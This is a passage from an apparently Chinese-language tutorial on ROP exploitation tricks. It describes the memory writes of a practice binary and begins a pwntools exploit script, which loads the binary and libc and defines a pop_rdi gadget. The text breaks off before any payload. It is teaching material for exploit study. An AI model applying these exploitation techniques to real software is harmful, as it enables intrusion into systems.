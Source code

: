 ![image-20250205091825589](images/ROP_Tricks/image-20250205091825589.png)

第一次读取是写入`0x00404060`处的内存。

![image-20250205091857385](images/ROP_Tricks/image-20250205091857385.png)

而第二次是往`rbp-0x20`的位置写入`0x30`长度的字符串。

对于这个示例，对应的exp如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

context.log_level = "debug"
context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")
libc = ELF("./libc-2.31.so")

pop_rdi   = 0x0000000000401223
```